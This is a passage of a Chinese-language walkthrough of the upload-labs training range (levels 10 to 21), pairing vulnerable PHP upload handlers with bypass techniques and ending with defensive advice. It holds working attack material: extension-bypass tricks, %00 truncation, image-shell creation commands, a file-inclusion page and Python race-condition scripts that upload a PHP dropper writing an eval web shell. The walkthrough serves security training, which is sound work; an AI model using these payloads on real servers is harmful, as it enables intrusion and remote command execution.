        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

黑名单禁止上传
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf| .htaccess|.ini 后缀文件，将上传文件后缀名转为小写，去除文件名前后的空格，再去除文件名最后所有的`.`，再通过strrchar函数来寻找`.`来确认文件名的后缀，但是最后保存文件的时候没有重命名而使用的原始的文件名，导致可以利用shell.php. .（点+空格+点）来绕过

解题思路：

````php
代码先是去除文件名前后的空格，再去除文件名最后所有的.，再通过strrchar函数来寻找.来确认文件名的后缀，但是最后保存文件的时候没有重命名而使用的原始的文件名，导致可以利用shelll.php. .（点+空格+点）来绕过
````




#### 第十一关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess","ini");

        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

从文件名中去除
.php|.php5|.php4|.php3|.php2|php1|.html|.htm|.phtml|.pHp|.pHp5|.pHp4|.pHp3|.pHp2|pHp1|.Html|.Htm|.pHtml|.jsp|.jspa|.jspx|.jsw|.jsv|.jspf|.jtml|.jSp|.jSpx|.jSpa|.jSw|.jSv|.jSpf|.jHtml|.asp|.aspx|.asa|.asax|.ascx|.ashx|.asmx|.cer|.aSp|.aSpx|.aSa|.aSax|.aScx|.aShx|.aSmx|.cEr|.sWf|.swf|.htaccess字符！

解题思路：

```php
黑名单过滤，将黑名单里的后缀名替换为空且只替换一次，因此可以用shell.phphpp双写绕过
```




#### 第十二关

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

解题思路：

```php
白名单判断上传文件必须为jpg|png|gif后缀名，但$img_path是直接拼接，因此可以利用%00截断绕过。

截断条件：php版本小于5.3.4，php的magic_quotes_gpc为OFF状态
```




#### 第十三关

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_POST['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传失败";
        }
    } else {
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```

解题思路：

```php
save_path参数通过POST方式传递，还是利用00截断，因为POST不会像GET对%00进行自动解码，所以需要在二进制中进行修改。
```








#### 第十四关

```php
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

解题思路：

```php
通过读文件的前2个字节判断文件类型，因此直接上传图片马即可，制作图片马：
Windows系统：copy 22.jpg /b + 1.php /a shell.jpg
Linux系统：echo "一句话木马" >> 1.jpg
```



直接访问图片并不能把图片当做PHP解析，因此还需要利用文件包含漏洞

```php
<?php
/*
本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
*/
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?>
```


#### 第十五关

```php
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}
```

解题思路：

```php
用getimagesize函数判断文件类型，还是可以图片马绕过，方法同第十四关
```


#### 第十六关

```php
function isImage($filename){
    //需要开启php_exif模块
    $image_type = exif_imagetype($filename);
    switch ($image_type) {
        case IMAGETYPE_GIF:
            return "gif";
            break;
        case IMAGETYPE_JPEG:
            return "jpg";
            break;
        case IMAGETYPE_PNG:
            return "png";
            break;    
        default:
            return false;
            break;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}

```

解题思路：

```php
这里用到php_exif模块来判断文件类型，还是可以图片马绕过，方法同第十四关
```


#### 第十七关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];

    $target_path=UPLOAD_PATH.'/'.basename($filename);

    // 获得上传文件的扩展名
    $fileext= substr(strrchr($filename,"."),1);

    //判断文件后缀与类型，合法才进行上传操作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagejpeg($im,$img_path);
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "png") && ($filetype=="image/png")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefrompng($target_path);

            if($im == false){
                $msg = "该文件不是png格式的图片！";
                @unlink($target_path);
            }else{
                 //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".png";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagepng($im,$img_path);

                @unlink($target_path);
                $is_upload = true;               
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件不是gif格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".gif";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagegif($im,$img_path);

                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
    }else{
        $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
    }
}

```

解题思路：

```php
判断了后缀名、content-type，以及利用imagecreatefromgif判断是否为gif图片，最后再做了一次二次渲染。
```



文件包含图片马


参考：https://www.fujieace.com/penetration-test/upload-labs-pass-16.html


#### 第十八关

```php
 $is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
```

解题思路：

```php
这里是条件竞争，先将文件上传到服务器，然后判断文件后缀是否在白名单里，如果在则重命名，否则删除，因此我们可以上传1.php只需要在它删除之前访问即可，可以利用burp的intruder模块不断上传，然后我们不断的访问刷新该地址即可
```

Python脚本：

```python
import requests
import threading
def upload():
    url = "http://192.168.0.129/Pass-18/index.php"
    file = {"upload_file": ("18.php", "<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST[cmd])?>');", "image/jpeg")}
    data = {"submit": "上传"}
    geturl = "http://192.168.0.129/upload/18.php"
    while event.isSet():
        request = requests.post(url, data=data, files=file)
        result = requests.get(geturl)
        if result.status_code == 200:
            print("upload success!")
            event.clear()
if __name__ == '__main__':
    event = threading.Event()
    event.set()
    for i in range(1,20):
        threading.Thread(target=upload).start()
```


#### 第十九关

```php
//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

......
......
......  
  /** upload()
   **
   ** Method to upload the file.
   ** This is the only method to call outside the class.
   ** @para String name of directory we upload to
   ** @returns void
  **/
  function upload( $dir ){
    
    $ret = $this->isUploadedFile();
    
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->setDir( $dir );
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkExtension();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
```

解题思路：

```php
因此也存在条件竞争的问题，不过这题对文件后缀名做了白名单判断，然后会一步一步检查文件大小、文件是否存在等等，因此可以通过不断上传图片马，由于条件竞争可能来不及重命名，从而上传成功。
```

Python脚本：

```python
import requests
import threading
import re
def upload():
    url = "http://192.168.0.129/Pass-19/index.php"
    file = {"upload_file": ("19.7z", "<?php fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST[cmd])?>');", "image/jpeg")}
    data = {"submit": "上传"}
    while event.isSet():
        request = requests.post(url, data=data, files=file).text
        if "7z" in request:
            re_str = re.search("/(upload.*\.7z)",request)
            geturl = "http://192.168.0.129/include.php?file=./%s" % re_str.group(1)
            result = requests.get(geturl)
            if result.status_code == 200:
                print("upload success!")
                event.clear()
if __name__ == '__main__':
    event = threading.Event()
    event.set()
    for i in range(1,20):
        threading.Thread(target=upload).start()
```


访问shell.php文件


#### 第二十关

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错！';
            }
        }else{
            $msg = '禁止保存为该类型文件！';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```

解题思路：

```php
发现move_uploaded_file()函数中的img_path是由post参数save_name控制的，因此可以在save_name利用00截断绕过，方法同pass-12
```






#### 第二十一关

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}

```

解题思路：

可以发现`$file_name`经过`reset($file) . '.' . $file[count($file) - 1];`处理。

如果上传的是数组的话，会跳过`$file = explode('.', strtolower($file));`。并且后缀有白名单过滤

```php
$ext = end($file);
$allow_suffix = array('jpg','png','gif');
```

而最终的文件名后缀取的是`$file[count($file) - 1]`，因此我们可以让`$file`为数组。`$file[0]`为`smi1e.php/`，也就是`reset($file)`，然后再令`$file[2]`为白名单中的jpg。此时`end($file)`等于jpg，`$file[count($file) - 1]`为空。而 `$file_name = reset($file) . '.' . $file[count($file) - 1];`，也就是`info.php/.`，最终`move_uploaded_file`会忽略掉`/.`，最终上传`inf.php`。




## 防御措施

* 针对开发/运维人员
  * 增强网络安全意识，了解上传漏洞原理和利用手段
  * 系统定期维护扫描，排查可疑/恶意脚本文件
  * 对开源代码/cms，及时注意软件版本和官方补丁更新
  * 服务器文件目录严格合理配置
* 开发阶段防御
  * 上传目录设置为不可执行（重要！即使可以上传脚本，服务器本身也不会受到影响）
  * 文件校验黑白名单方式严格过滤（建议白名单）
  * 使用随机数/时间戳改写文件路径（防止.htaccess等攻击，增大攻击成本）
  * 使用三方服务器存储文件（将上传应用独立存储为静态文件存放在三方服务器上，一方面使用缓存加速降低服务器资源消耗；另一方面杜绝了脚本执行的可能）
* 上线阶段防御
  * 定期对系统进行内部安全扫描（内部扫描）
  * 定期签约进行渗透测试服务（外部排查）
  * 

## 参考资料

https://blog.csdn.net/Aaron_Miller/article/details/106273116#t5

https://www.geekby.site/2021/01/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E/#13-%E7%B3%BB%E7%BB%9F%E7%89%B9%E6%80%A7

https://www.freebuf.com/articles/web/265245.html
